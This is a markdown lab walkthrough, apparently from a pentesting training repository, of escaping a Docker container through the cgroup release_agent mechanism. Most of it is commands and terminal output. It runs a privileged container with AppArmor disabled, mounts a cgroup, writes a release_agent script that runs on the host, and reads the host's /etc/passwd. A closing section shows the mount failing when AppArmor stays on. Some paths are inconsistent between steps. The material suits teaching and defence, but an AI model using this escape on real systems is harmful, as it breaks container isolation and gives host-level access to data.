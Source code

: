 # Break out of a docker container.​ Privilege Escalation via Cgroups.


* Run a container with the capability "SYS_ADMIN" and disabling App Armor

```bash
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```
Output:
```
pentester@NotSoSecure:~$ docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
Unable to find image 'ubuntu:latest' locally
latest: Pulling from library/ubuntu
2b55860d4c66: Pull complete
Digest: sha256:86181188d631f0699afaefb177631b21a6d692629679443197472a3df6355012
Status: Downloaded newer image for ubuntu:latest
root@73e3f292018e:/#
```
* Inside the container create a directory 'cgrp' in /tmp
```bash
mkdir /tmp/cgrp
```
Output:
```bash
root@73e3f292018e:/# mkdir /tmp/cgrp
root@73e3f292018e:/# ls -la /tmp/
total 12
drwxrwxrwt 1 root root 4096 Sep  2 04:46 .
drwxr-xr-x 1 root root 4096 Sep  2 04:42 ..
drwxr-xr-x 2 root root 4096 Sep  2 04:46 cgrp
```
* Mount the RDMA cgroup controller by using the below command:
```bash
mount -t cgroup -o rdma cgroup /tmp/cgrp
```
Output:
```
root@73e3f292018e:/# mount -t cgroup -o rdma cgroup /tmp/cgrp
root@73e3f292018e:/# ls -la /tmp/cgrp/
total 4
dr-xr-xr-x 2 root root    0 Sep  2 04:39 .
drwxrwxrwt 1 root root 4096 Sep  2 04:46 ..
-rw-r--r-- 1 root root    0 Sep  2 04:39 cgroup.clone_children
-rw-r--r-- 1 root root    0 Sep  2 04:39 cgroup.procs
-r--r--r-- 1 root root    0 Sep  2 04:39 cgroup.sane_behavior
-rw-r--r-- 1 root root    0 Sep  2 04:39 notify_on_release
-rw-r--r-- 1 root root    0 Sep  2 04:39 release_agent
-rw-r--r-- 1 root root    0 Sep  2 04:39 tasks
root@73e3f292018e:/#
```
* Create a child cgroup inside /tmp/cgrp 
```bash
mkdir /tmp/cgrp/childgrp
```
Output:
```
root@73e3f292018e:/# mkdir /tmp/cgrp/childgrp
root@73e3f292018e:/# ls -la /tmp/cgrp/
total 4
dr-xr-xr-x 3 root root    0 Sep  2 04:54 .
drwxrwxrwt 1 root root 4096 Sep  2 04:46 ..
-rw-r--r-- 1 root root    0 Sep  2 04:47 cgroup.clone_children
-rw-r--r-- 1 root root    0 Sep  2 04:47 cgroup.procs
-r--r--r-- 1 root root    0 Sep  2 04:47 cgroup.sane_behavior
drwxr-xr-x 2 root root    0 Sep  2 04:54 childgrp
-rw-r--r-- 1 root root    0 Sep  2 04:47 notify_on_release
-rw-r--r-- 1 root root    0 Sep  2 04:47 release_agent
-rw-r--r-- 1 root root    0 Sep  2 04:47 tasks
root@73e3f292018e:/# ls -la /tmp/cgrp/childgrp/
total 0
drwxr-xr-x 2 root root 0 Sep  2 04:54 .
dr-xr-xr-x 3 root root 0 Sep  2 04:54 ..
-rw-r--r-- 1 root root 0 Sep  2 04:54 cgroup.clone_children
-rw-r--r-- 1 root root 0 Sep  2 04:54 cgroup.procs
-rw-r--r-- 1 root root 0 Sep  2 04:54 notify_on_release
-r--r--r-- 1 root root 0 Sep  2 04:54 rdma.current
-rw-r--r-- 1 root root 0 Sep  2 04:54 rdma.max
-rw-r--r-- 1 root root 0 Sep  2 04:54 tasks
root@73e3f292018e:/#
```
* Enable the cgroup notifications on release of the child i.e 'childgrp' by enabling the 'notify_on_release' 

```bash
echo 1 > /tmp/cgrp/childgrp/notify_on_release
```
Output:
```bash
root@73e3f292018e:/# cat /tmp/cgrp/childgrp/notify_on_release
0
root@73e3f292018e:/# echo 1 > /tmp/cgrp/childgrp/notify_on_release
root@73e3f292018e:/# cat /tmp/cgrp/childgrp/notify_on_release
1
root@73e3f292018e:/#
```
* Obtain the container's path on the host via /etc/mtab file :
```bash
cat /etc/mtab | grep upperdir
```
Output:
```
root@73e3f292018e:/# cat /etc/mtab | grep upperdir
overlay / overlay rw,relatime,lowerdir=/var/lib/docker/overlay2/l/2BDQ47NNT3NNOGOSRDGTILVSXF:/var/lib/docker/overlay2/l/LUFOVIMLYRB7O7U3GWXDOOUCV7,upperdir=/var/lib/docker/overlay2/e2af493d57f466001eb3b309e13987dd307422ae439b853810a893f94a36096c/diff,workdir=/var/lib/docker/overlay2/e2af493d57f466001eb3b309e13987dd307422ae439b853810a893f94a36096c/work 0 0
root@73e3f292018e:/#
```
* Copy the above path to an env variable Cpath

```bash
root@73e3f292018e:/# cpath=/var/lib/docker/overlay2/e2af493d57f466001eb3b309e13987dd307422ae439b853810a893f94a36096c/diff
root@73e3f292018e:/# echo $cpath
/var/lib/docker/overlay2/e2af493d57f466001eb3b309e13987dd307422ae439b853810a893f94a36096c/diff
root@73e3f292018e:/#
```
* Setup the RDMA cgroup release agent to execute a '/command' script :
```bash
echo "$cpath/command" > /tmp/cgrp/release_agent
```
Output:
```
root@73e3f292018e:/# cat /tmp/cgrp/release_agent

root@73e3f292018e:/# echo "$cpath/command" > /tmp/cgrp/release_agent
root@73e3f292018e:/# cat /tmp/cgrp/release_agent
/var/lib/docker/overlay2/e2af493d57f466001eb3b309e13987dd307422ae439b853810a893f94a36096c/diff/command
root@73e3f292018e:/#

```
* Create the /command bash script that will execute the command 'cat /etc/passwd' and copy the input to the /output file. 

```bash
echo '#!/bin/sh' > /command
```
```bash
echo "cat /etc/passwd > $cpath/output" >> /command
```
Output:
```bash
root@73e3f292018e:/# echo '#!/bin/sh' > /command
root@73e3f292018e:/# echo "cat /etc/passwd > $cpath/output" > /command
root@73e3f292018e:/# cat /command
cat /etc/passwd > /var/lib/docker/overlay2/e2af493d57f466001eb3b309e13987dd307422ae439b853810a893f94a36096c/diff/output
root@73e3f292018e:/#
```
* set the necessary permissions to /command

```bash
chmod  a+x /command
```
```bash
cat /command
```
Output:
```bash
root@73e3f292018e:/# chmod  a+x /command
root@73e3f292018e:/# ls -la /command
-rwxr-xr-x 1 root root 131 Sep  2 11:39 /command
root@73e3f292018e:/# cat /command
#!/bin/sh
cat /etc/passwd > /var/lib/docker/overlay2/e2af493d57f466001eb3b309e13987dd307422ae439b853810a893f94a36096c/diff/output
root@73e3f292018e:/#
```
*  The attack can be executed by creating a ‘/bin/sh’ process and writing its PID to the cgroup.procs file inside the child cgroup directory (/tmp/cgrp/childcgrp). The output from the /command bash script will be written to /output file.

```bash
sh -c “echo \$\$  > /tmp/cgrp/childcgrp/cgroup.procs”
```
```bash
cat /output
```
Output:
```bash
root@73e3f292018e:/# sh -c "echo \$\$ > /tmp/c1/ch1/cgroup.procs"
root@73e3f292018e:/# cat /output
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
pentester:x:1000:1000:pentester,,,:/home/pentester:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
ntp:x:108:114::/nonexistent:/usr/sbin/nologin
usbmux:x:109:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
root@73e3f292018e:/#

```

### Retry the above exercise, without disabling App Armor

* Run a container with the capability "SYS_ADMIN"
```bash
docker run --rm -it --cap-add=SYS_ADMIN ubuntu bash
```
* Inside the container create a directory 'cgrp' in /tmp
```bash
mkdir /tmp/cgrp
```
* Mounting a cgroup is disallowed
```bash
mount -t cgroup -o rdma cgroup /tmp/cgrp
```
Output:
```bash
root@810bcd93f243:/# mount -t cgroup -o rdma cgroup /tmp/cgrp
mount: /tmp/cgrp: cannot mount cgroup read-only.
root@810bcd93f243:/#
```

